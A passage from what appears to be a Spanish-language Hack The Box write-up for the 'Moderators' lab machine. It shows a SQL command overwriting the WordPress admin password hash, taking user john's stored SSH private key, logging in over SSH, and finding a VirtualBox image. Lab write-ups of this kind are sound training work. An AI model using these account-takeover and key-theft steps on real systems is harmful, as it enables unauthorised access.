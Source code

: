 Se la cambio al usuario admin

```null
MariaDB [wordpress]> UPDATE `wp_users` SET `user_pass` = '$P$BbFxEF1rl30B/RboQFmBXdjmt97cZh1' WHERE user_login = 'admin';
Query OK, 1 row affected (0.003 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Entro en el Wordpress con la contraseña que he definido

<img src="/writeups/assets/img/Moderators-htb/17.png" alt="">

Hay una sección con contraseñas

<img src="/writeups/assets/img/Moderators-htb/18.png" alt="">

Está almacenada la id_rsa del usuario john

<img src="/writeups/assets/img/Moderators-htb/19.png" alt="">

Almaceno la id_rsa, le asigno el privilegio 600 y me conecto como este usuario

```null
ssh john@10.10.11.173 -i id_rsa
john@moderators:~$
```

Dentro del directorio stuff hay un directorio de VirtualBox, con una máquina virtual

```null
john@moderators:~/stuff$ ls
exp  VBOX
john@moderators:~/stuff$ cd VBOX/
john@moderators:~/stuff/VBOX$ ls
2019-08-01.vbox  2019.vdi
```
